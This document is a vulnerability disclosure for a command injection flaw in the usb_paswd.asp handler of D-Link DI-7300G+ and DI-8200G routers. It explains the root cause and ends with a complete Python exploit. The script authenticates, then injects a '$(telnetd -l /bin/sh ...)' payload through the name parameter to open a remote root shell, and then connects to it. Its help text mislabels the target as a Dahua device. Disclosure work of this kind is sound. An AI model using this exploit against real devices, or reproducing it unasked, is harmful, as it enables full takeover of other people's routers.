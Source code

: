 **Vendor of the products:** D-Link

**Affected Device:** D-Link DI-7300G+、DI-8200G

**Version:** DI-7300G+ V19.12.25A1、DI_8200G-17.12.20A1

**Firmware Download:** http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7300G%2B

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200G

 

**Vulnerability Description:** A command injection vulnerability was discovered in D-Link DI-7300G+ V19.12.25A1 and DI_8200G-17.12.20A1, triggered by the name and hname parameters in usb_paswd.asp. Attackers can exploit this vulnerability by crafting malicious packets to execute arbitrary commands, thereby gaining full control of the target device.



# POC:

**Functional interface:**

![img](assets/wps1.jpg) 

**request1：**

![img](assets/wps2.jpg) 

**request2:**

![img](assets/wps3.jpg) 

# Vulnerability Effect:

It can be observed that the router receives the request and successfully executes the command. The attacker can execute arbitrary commands.

![img](assets/wps4.jpg) 

![img](assets/wps5.jpg) 

# Vulnerability Cause:

The issue resides in the jhttpd component. In jhttpd, the program invokes the sub_4621DC function to handle requests related to usb_paswd.asp. The program first retrieves the user-input parameters name and hname via httpd_get_parm.

![img](assets/wps6.jpg) 

Next, the program uses nvram_set to set the values of usb_username and usb_husername to the parameters v5 and v7 input by the user from the frontend. Subsequently, the program retrieves the values of the usb_username and usb_husername fields from NVRAM via the jhl_nv_get_def function. These values are concatenated using the sprintf function and directly passed to the system function for execution. Since no security checks are performed during this process, it leads to a command injection vulnerability. Attackers can execute arbitrary commands and fully control the device by constructing malicious parameters.

![img](assets/wps7.jpg) 

 

# EXP:



```python
#!/usr/bin/env python3
import requests
import re
import os
import time
import argparse
from getpass import getpass

# Disable SSL warnings
requests.packages.urllib3.disable_warnings()

def parse_args():
    """Parse command-line arguments"""
    parser = argparse.ArgumentParser(description='Dahua Device Exploit POC')
    parser.add_argument('-i', '--ip', default='192.168.0.1',
                       help='Target IP address (default: 192.168.0.1)')
    parser.add_argument('-u', '--username', default='admin',
                       help='Username (default: admin)')
    parser.add_argument('-p', '--password',
                       help='Password (will prompt if not provided)')
    parser.add_argument('-P', '--port', type=int, default=80,
                       help='HTTP port (default: 80)')
    parser.add_argument('-t', '--telnet-port', type=int, default=333,
                       help='Telnet port to open (default: 333)')
    return parser.parse_args()

def get_password(args):
    """Get password securely"""
    if args.password:
        return args.password
    return getpass(f"Enter password for {args.username} (default: admin): ") or "admin"

def build_url(ip, port, path):
    """Construct full URL"""
    return f"http://{ip}:{port}{path}"

def login(args):
    """Authenticate and get session cookies"""
    url = build_url(args.ip, args.port, "/login.cgi")
    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "keep-alive",
    }

    data = {
        "user": args.username,
        "password": args.password
    }

    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        print(f"\n[+] Login Status: {response.status_code}")
        
        cookies = response.cookies.get_dict()
        if 'Set-Cookie' in response.headers:
            gw_cookie = re.search(r'gw_userid=([^;]+)', response.headers['Set-Cookie'])
            if gw_cookie:
                cookies['gw_userid'] = gw_cookie.group(1)
        return cookies
        
    except Exception as e:
        print(f"[-] Login failed: {str(e)}")
        return None

def execute_command(args, cookies):
    """Exploit command injection"""
    url = build_url(args.ip, args.port, "/usb_paswd.asp")
    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "application/json, text/javascript, */*",
        "Connection": "keep-alive",
        "Cookie": f"userid={args.username}; gw_userid={cookies.get('gw_userid', '')}"
    }

    params = {
        "share_enable": "1",
        "passwd": "admin",
        "name": f"$(telnetd -l /bin/sh -p {args.telnet_port})"
    }

    try:
        response = requests.get(url, headers=headers, params=params, verify=False)
        print(f"[+] Command executed. Status: {response.status_code}")
        return True
    except Exception as e:
        print(f"[-] Command execution failed: {str(e)}")
        return False

def connect_telnet(ip, port):
    """Establish telnet connection"""
    print("\n[+] Attempting telnet connection...")
    time.sleep(2)
    os.system(f"telnet {ip} {port}")

def main():
    args = parse_args()
    args.password = get_password(args)

    print(f"\n[+] Target: {args.ip}:{args.port}")
    print(f"[+] Credentials: {args.username}:{'*' * len(args.password)}")
    print(f"[+] Will open telnet on port: {args.telnet_port}")

    cookies = login(args)
    if not cookies:
        return

    if execute_command(args, cookies):
        connect_telnet(args.ip, args.telnet_port)

if __name__ == "__main__":
    main()
```



 

 

 

 